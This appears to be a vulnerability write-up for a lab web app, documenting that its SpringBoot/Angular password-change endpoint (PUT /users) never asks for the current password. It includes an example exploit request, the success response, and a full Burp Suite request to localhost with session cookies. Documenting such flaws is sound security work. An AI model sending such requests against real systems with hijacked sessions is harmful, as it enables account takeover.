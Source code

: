 # Lack Password Change Validation/Check
It is widely acknowledged that for users to change a password they ought to be questioned for their current password.  This prevents session hijacks from changing the user's password after gaining control.

## Exploitation
**Prerequisites:** _Authenticated_

**Location:** _PUT /users_

SpringBoot and Angular code lack any validating parameter for the current password. To exploit simply means to change the password as this is exactly what a session hijacker would do.  Below is an exploitation example:

    PUT /users
    raw:
    {
        "newPassword" : "password1!",
        "username" : "timmy"
    }

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Password updated successfully."
    }

## Burp Suite Example Exploitation

    PUT /users HTTP/1.1
    Host: 127.0.0.1:8081
    Content-Length: 47
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    Content-Type: application/json
    X-XSRF-TOKEN: d5e05d8a-d66b-4426-8b79-161349ab4b17
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: XSRF-TOKEN=d5e05d8a-d66b-4426-8b79-161349ab4b17; JSESSIONID=E5FCD0A443D296E9E5FEECEE96D6EF35
    Connection: close

    {"username":"timmy","newPassword":"password1!"}

